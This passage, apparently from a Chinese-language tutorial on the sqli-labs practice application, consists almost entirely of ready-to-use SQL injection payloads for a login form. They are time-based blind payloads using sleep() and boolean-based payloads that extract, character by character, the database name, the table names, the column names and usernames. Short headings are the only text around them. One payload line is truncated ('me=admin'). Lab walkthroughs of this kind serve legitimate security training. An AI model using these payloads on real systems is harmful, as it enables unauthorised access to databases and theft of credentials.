 暴库payload

```
uname=admin' and if(left(database(),2)='se',sleep(5),1) --+&passwd=admin&submit=Submit

uname=admin' and if(left(database(),8)='security',sleep(5),1) --+&passwd=admin&submit=Submit
```

爆表payload

```
uname=admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 3,1),1)='u',sleep(5),1) --+&passwd=admin&submit=Submit

uname=admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users',sleep(5),1) --+&passwd=admin&submit=Submit
```

暴出列名

```
uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 0,1),2)='id',sleep(3),1) --+&passwd=admin&submit=Submit
```

暴值payload

```
uname=admin' and if(left((select username from users limit 0,1),1)='D',sleep(3),1) --+&passwd=admin&submit=Submit


me=admin' and if(left((select username from users limit 0,1),4)='Dumb',sleep(3),1) --+&passwd=admin&submit=Submit
```

### **方法二，布尔型手工注入**

判断数据库长度

```
uname=admin' and length(database())=8 --+&passwd=admin&submit=Submit
```

暴力破击数据库名

```
uname=admin' and left((select database()),1)='s' --+&passwd=admin&submit=Submit

uname=admin' and left((select database()),8)='security' --+&passwd=admin&submit=Submit
```

暴力破解表名

```
uname=admin' and left((select table_name from information_schema.tables where table_schema =database() limit 3,1),1)='u' --+&passwd=admin&submit=Submit

uname=admin' and left((select table_name from information_schema.tables where table_schema =database() limit 3,1),5)='users' --+&passwd=admin&submit=Submit
```
